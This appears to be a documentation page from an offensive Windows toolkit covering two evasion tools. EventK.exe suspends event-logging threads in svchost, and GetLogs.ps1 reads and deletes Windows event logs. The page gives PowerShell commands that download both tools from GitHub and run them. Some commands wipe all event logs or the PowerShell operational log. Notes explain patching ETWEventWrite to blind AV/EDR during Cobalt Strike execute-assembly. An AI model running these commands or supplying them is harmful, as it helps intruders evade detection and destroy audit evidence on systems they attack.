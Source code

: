 ## EventK.exe

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|EventK|Suspend thread in svchost.exe related to event logging (@SolomonSklash)|Administrator|[Screenshot](https://naoexiste)|

<br />

**Download cmdlet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/eventK.exe" -OutFile "eventK.exe"|Unblock-File
```

<br />

**Execute:**
```powershell
.\eventK.exe
```

<br />

**Final Notes:**
```powershell
[ETW Bypass]
Next up is coverage of Event Tracing for Windows (ETW), how it can rat you out to AV/EDR,
and how to blind it in your local process. ETW is especially relevant when executing .NET
assemblies, such as in Cobalt Strike’s execute-assembly, as it can inform defenders of the
exact assembly name and methods executed. The solution in this case is simple: Patch the
ETWEventWrite function to return early with 0 in the RAX register. Anytime an ETW event
is sent by the process, it will always succeed, without actually sending the message.
```

Article: https://www.solomonsklash.io/windows-evasion-course-review.html

<br />

## GetLogs.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|GetLogs|Enumerate \ Read \ Delete eventvwr logfiles (ETW)|User Land|[Screenshot](https://naoexiste)|

<br />

**Download cmdlet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/GetLogs.ps1" -OutFile "GetLogs.ps1"
```

<br />

**Execute:**
```powershell
#Lists ALL eventvwr categorie entrys
.\GetLogs.ps1 -GetLogs 'Enum'

#List newest 3 (default) Powershell\Application\System entrys
.\GetLogs.ps1 -GetLogs 'Verbose'

#List newest 8 Powershell\Application\System entrys
.\GetLogs.ps1 -GetLogs 'Verbose' -NewEst '8'

#List newest 28 logs using cmdlet default Id's and categories!
.\GetLogs.ps1 -GetLogs 'Yara' -NewEst '28'
   
#List newest 13 logfiles with Id: 59 using cmdlet default categories!
.\GetLogs.ps1 -GetLogs 'Yara' -NewEst '13' -Id '59'
   
#List newest 10 logfiles of 'system' categorie with id: 1
.\GetLogs.ps1 -GetLogs 'Yara' -verb "system" -Id '1' -NewEst '10'

#List newest 3 (default) logfiles of 'NetworkProfile/Operational' categorie with Id: 10001
.\GetLogs.ps1 -GetLogs 'Yara' -Verb "Microsoft-Windows-NetworkProfile/Operational" -id '10001'

#Delete ALL eventvwr (categories) logs from snapIn!
.\GetLogs.ps1 -GetLogs 'DeleteAll'

#Delete ONLY logfiles from "Microsoft-Windows-Powershell/Operational" eventvwr categorie!
.\GetLogs.ps1 -GetLogs 'DeleteAll' -Verb "Microsoft-Windows-Powershell/Operational"
```

